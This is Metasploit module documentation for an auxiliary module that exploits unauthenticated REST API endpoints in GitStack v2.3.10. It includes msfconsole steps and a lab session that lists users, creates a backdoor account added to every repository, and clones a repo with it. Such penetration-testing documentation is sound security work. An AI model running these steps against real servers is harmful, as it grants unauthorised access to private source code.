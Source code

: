 ## Description

This module sends requests to REST API endpoints on GitStack v2.3.10. The application allows unauthenticated REST API requests to several endpoints. Earlier version of GitStack may also be affected.

## Vulnerable Application

The GitStack application provides REST API functionality to list application users, list application repositories, create application users, etc. Several of the application's REST API endpoints do not require authentication, which allows those with network-level access to the application to take advantage of these unprotected requests.

Application user accounts created through the REST API do not have access to the admin web interface, but the accounts can be added and removed from repositories using additional API requests.

## Actions

**LIST**

List application user accounts. 

Note: The account `everyone` is a default account.

**LIST_REPOS**

List application repositories.

**CREATE**

Create a user account and add the account to all available repositories.

**CLEANUP**

Remove the specified application user account from all available repositories and delete the application account.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] Create a few application user accounts
- [ ] Create a few application repositories
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/gitstack_rest`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify the application user list that is returned
- [ ] `set action LIST_REPOS`
- [ ] `run`
- [ ] Verify the repository list that is returned
- [ ] `set username <username>`
- [ ] `set password <password>`
- [ ] `set action CREATE`
- [ ] `run`
- [ ] On the application verify that the user has been created
- [ ] On the application verify that the user has access to the repositories
- [ ] `set action CLEANUP`
- [ ] `run`
- [ ] On the application verify that the user doesn't have access to the repositories
- [ ] On the application verify that the user has been deleted



## Scenarios

### GitStack v2.3.10 on Windows 7 SP1 x64

```
msfdev@simulator:~/git/metasploit-framework$ ./msfconsole -q -r test.rc 
[*] Processing test.rc for ERB directives.
resource (test.rc)> use auxiliary/admin/http/gitstack_rest
resource (test.rc)> set rhost 172.22.222.122
rhost => 172.22.222.122
resource (test.rc)> run
[*] User List:
[+] rick
[+] morty
[+] everyone
[*] Auxiliary module execution completed
resource (test.rc)> set action LIST_REPOS
action => LIST_REPOS
resource (test.rc)> run
[*] Repo List:
[+] brainalyzer
[+] c137
[*] Auxiliary module execution completed
resource (test.rc)> set action CREATE
action => CREATE
resource (test.rc)> run
[+] SUCCESS: msf:password
[+] User msf added to brainalyzer
[+] User msf added to c137
[*] Auxiliary module execution completed
resource (test.rc)> set action CLEANUP
action => CLEANUP
resource (test.rc)> run
[+] msf removed from brainalyzer
[+] msf removed from c137
[+] msf has been deleted
[*] Auxiliary module execution completed
```

After CREATE, but before CLEANUP, use git to clone the remote repositories.

```
msfdev@simulator:~/money-bugs$ git clone http://msf:password@172.22.222.122/brainalyzer.git
Cloning into 'brainalyzer'...
remote: Counting objects: 3, done.
Unpacking objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
msfdev@simulator:~/money-bugs$ cd brainalyzer/ && ls
szechuan_sauce.md
```
